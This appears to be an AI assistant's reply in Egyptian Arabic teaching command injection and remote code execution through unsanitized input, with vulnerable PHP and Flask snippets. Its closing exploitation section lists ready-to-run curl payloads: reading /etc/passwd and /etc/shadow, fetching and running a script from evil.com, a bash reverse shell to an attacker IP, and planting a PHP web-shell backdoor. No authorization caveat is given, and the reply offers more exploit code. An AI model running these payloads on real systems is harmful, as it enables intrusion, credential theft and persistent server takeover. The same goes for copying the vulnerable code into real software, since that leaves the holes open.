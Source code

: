 تمام، هشرحلك القسم ده عن "حقن الأوامر والتنفيذ عن بُعد للكود (Command Injection and Remote Code Execution - RCE)" مع التركيز على استغلال المدخلات غير المنظفة (Unsanitized User Input) بعمق وعملي مع أكواد وأوامر، وبعد كل جزء هاديك خلاصة Pentest بالعامية المصرية، وفي الآخر هاديك سيناريوهات الاستغلال الممكنة.

---

### **1. حقن الأوامر (Command Injection)**
#### **شرح عملي:**
حقن الأوامر هو لما المهاجم بيحط أوامر نظام (زي أوامر Linux أو Windows) في مدخلات المستخدم (زي حقل بحث أو نموذج)، والتطبيق بينفذها لأنه مش بينظف المدخلات دي. يعني لو التطبيق بيستخدم دالة زي `system()` في PHP من غير فحص، ممكن تنفذ أي حاجة.

- **مثال:** لو حقل بحث بياخد المدخل ويحطه في أمر `ping`، المهاجم بيقدر يضيف أوامر تانية.

#### **كود عملي (PHP مع Command Injection):**
- كود ضعيف:
```php
<?php
if (isset($_GET['ip'])) {
    $ip = $_GET['ip'];
    $output = shell_exec("ping -c 4 " . $ip); # بدون تنظيف
    echo "<pre>$output</pre>";
}
?>
```
- لو بعتت طلب زي:
```
http://<IP>/ping.php?ip=8.8.8.8; whoami
```
- السيرفر هينفذ `ping -c 4 8.8.8.8; whoami`، ويرجعلك اسم المستخدم (زي `www-data`).

#### **أمر عملي (تجربة يدوية):**
- جرب بـ curl:
```bash
curl "http://<IP>/ping.php?ip=127.0.0.1; id"
```
- لو رجعلك `uid=33(www-data) gid=33(www-data)`، يبقى نفذت أمر!

#### **خلاصة Pentest بالعامية:**
"لو لقيت حقل بياخد مدخلات زي IP أو اسم، جرب تضيف `; id` أو `&& whoami` وشوف لو بيرجعلك حاجة. لو نفع، يبقى تقدر تخلي السيرفر يعملك أي حاجة زي القهوة!"

---

### **2. التنفيذ عن بُعد للكود (Remote Code Execution - RCE)**
#### **شرح عملي:**
RCE هو نوع أخطر من Command Injection، لأنه بيسمحلك تنفذ كود برمجي كامل (زي PHP أو Python) على السيرفر، مش مجرد أوامر نظام. بيحصل لو التطبيق بيستخدم دوال زي `eval()` أو `exec()` على مدخلات المستخدم بدون تنظيف.

- **مثال:** لو حقل بياخد تعبير رياضي ويحطه في `eval()`، ممكن تحول التعبير لكود خبيث.

#### **كود عملي (PHP مع RCE):**
- كود ضعيف:
```php
<?php
if (isset($_GET['calc'])) {
    $calc = $_GET['calc'];
    eval("echo $calc;"); # خطر جدًا
}
?>
```
- لو بعتت طلب زي:
```
http://<IP>/calc.php?calc=1+1; system('whoami');
```
- هيرجعلك `www-data` بدل ما يحسب `1+1` بس!

#### **أمر عملي (تجربة RCE):**
- جرب:
```bash
curl "http://<IP>/calc.php?calc=1; phpinfo();"
```
- لو رجعلك صفحة `phpinfo()`، يبقى نفذت كود PHP!

#### **خلاصة Pentest بالعامية:**
"لو شكيت إن فيه حقل بينفذ كود، جرب تحط `; phpinfo();` أو `; system('id');` وشوف لو بيطلعلك حاجة. لو نجحت، يبقى تقدر تكتب سكربت كامل وترفعه على السيرفر!"

---

### **3. استغلال المدخلات غير المنظفة (Exploiting Unsanitized User Input)**
#### **شرح عملي:**
المدخلات غير المنظفة هي السبب الرئيسي للثغرات دي. لو التطبيق ما بيفلترش أو بيثق في اللي بتبعته (زي حروف، أرقام، أو أوامر)، المهاجم بيقدر يحقن أي حاجة تنفذ على السيرفر.

- **التأثير:** بيسمح بتنفيذ أوامر زي حذف ملفات أو فتح Shell.

#### **كود عملي (Python مع Command Injection):**
- كود Flask ضعيف:
```python
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/run')
def run_command():
    cmd = request.args.get('cmd')
    result = os.popen(cmd).read() # بدون تنظيف
    return result

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
- لو بعتت:
```
http://<IP>:5000/run?cmd=ls -la
```
- هيرجعلك لستة الملفات (في لينكس `ls` يتغير بـ `dir` في ويندوز).

#### **أمر عملي (تجربة):**
```bash
curl "http://<IP>:5000/run?cmd=whoami"
```
- لو رجعلك اسم المستخدم، يبقى استغليتها!

#### **خلاصة Pentest بالعامية:**
"جرب تحط أوامر زي `; ls` أو `&& dir` في أي حقل أو لينك، لو السيرفر نفذها يبقى ما فيهوش فلترة. ابدأ نفذ حاجات أكبر زي `cat /etc/passwd` واستمتع!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Command Injection:**
   - **Basic Commands:** جرب أوامر زي:
     ```bash
     curl "http://<IP>/ping.php?ip=127.0.0.1; cat /etc/passwd"
     ```
     لو رجعلك ملفات النظام، يبقى نجحت.
   - **Chaining:** نفذ أوامر متتالية:
     ```bash
     curl "http://<IP>/ping.php?ip=127.0.0.1 && wget http://evil.com/shell.sh && bash shell.sh"
     ```
     هيحمل سكربت وينفذه.

2. **Remote Code Execution (RCE):**
   - **PHP Execution:** لو فيه `eval()`، جرب:
     ```bash
     curl "http://<IP>/calc.php?calc=1; file_get_contents('/etc/passwd');"
     ```
   - **Reverse Shell:** نفذ كود يفتح Shell:
     ```bash
     curl "http://<IP>/calc.php?calc=1; system('bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1');"
     ```
     شغل `nc -lvnp 4444` على جهازك وخد السيرفر.

3. **مشترك (Unsanitized Input):**
   - **File Access:** اسحب ملفات حساسة:
     ```bash
     curl "http://<IP>/run?cmd=cat /etc/shadow"
     ```
   - **Backdoor:** اكتب ملف خبيث:
     ```bash
     curl "http://<IP>/run?cmd=echo '<?php system($_GET[cmd]); ?>' > shell.php"
     ```
     افتح `http://<IP>/shell.php?cmd=id`.
   - **Automated Testing:** استخدم Burp أو wfuzz تكتشف الحقن:
     ```bash
     wfuzz -c -z file,/usr/share/wordlists/payloads.txt --hs "error" "http://<IP>/run?cmd=FUZZ"
     ```

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، قوللي وأنا أفصلك!